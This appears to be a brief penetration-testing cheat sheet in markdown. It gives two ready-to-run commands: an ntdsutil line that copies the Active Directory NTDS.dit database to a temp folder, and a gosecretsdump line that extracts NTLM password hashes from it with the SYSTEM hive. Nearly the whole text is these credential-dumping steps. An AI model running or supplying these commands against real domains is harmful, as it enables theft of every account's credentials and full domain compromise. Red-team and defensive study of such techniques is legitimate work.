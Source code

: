 # NTDS.dit Dump
## [ntdsutil](https://github.com/clr2of8/DPAT)
```sh
ntdsutil "ac in ntds" "ifm" "cr fu c:\temp" q q
```

# NTDS.dit Extract
## [gosecretsdump](https://github.com/C-Sto/gosecretsdump)
```sh
gosecretsdump -enabled -noprint  -ntds [ntds.dit] -system [SYSTEM] -out [ntlm.domain.txt]
```
